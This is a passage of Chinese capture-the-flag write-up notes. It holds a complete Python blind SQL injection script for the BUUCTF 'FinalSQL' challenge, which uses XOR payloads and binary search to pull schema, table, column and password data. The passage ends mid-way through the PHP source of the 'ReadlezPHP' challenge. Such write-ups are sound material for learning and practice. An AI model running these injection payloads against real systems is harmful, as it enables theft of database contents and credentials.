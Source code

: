 抓包加一个XFF即可

---
# [极客大挑战 2019]FinalSQL
- 异或注入

脚本：
```python
import requests
import time

url = "http://c7f4deb2-e4eb-4cec-a2b4-6014fb5b6c2d.node3.buuoj.cn/search.php?"
temp = {"id" : ""}
column = ""
for i in range(1,1000):
    time.sleep(0.06)
    low = 32
    high =128
    mid = (low+high)//2
    while(low<high):
        #库名
        temp["id"] = "1^(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1" %(i,mid)
        #表名
        #temp["id"] = "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)^1" %(i,mid)
        #字段名
        #temp["id"] = "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1" %(i,mid)
        #内容
        #temp["id"] = "1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" %(i,mid)
        r = requests.get(url,params=temp)
        time.sleep(0.04)
        print(low,high,mid,":")
        if "Click" in r.text:
            low = mid+1
        else:
            high = mid
        mid =(low+high)//2
    if(mid ==32 or mid ==127):
        break
    column +=chr(mid)
    print(column)
    
print("All:" ,column)
```

---
# [NPUCTF2020]ReadlezPHP
```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
```